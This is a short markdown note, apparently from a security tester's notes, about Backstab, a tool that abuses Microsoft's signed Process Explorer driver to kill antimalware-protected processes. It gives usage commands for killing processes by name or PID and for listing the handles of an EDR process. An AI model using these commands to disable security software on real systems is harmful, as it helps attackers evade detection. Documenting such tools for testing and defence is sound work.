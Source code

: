 # BackStab
- https://github.com/Yaxser/Backstab

![[backstab.gif]]

>[!INFO] _Backstab is a tool capable of killing antimalware protected processes by leveraging sysinternals’ Process Explorer (ProcExp) driver, which is signed by Microsoft._

**Usage:**
```powershell
# Windows
# kill process name
backstab.exe -n $name -k

# kill process by PID
backstab.exe -p $pid -k

# list all handles of cyserver
backstab.exe -n cyserver.exe -l		
```
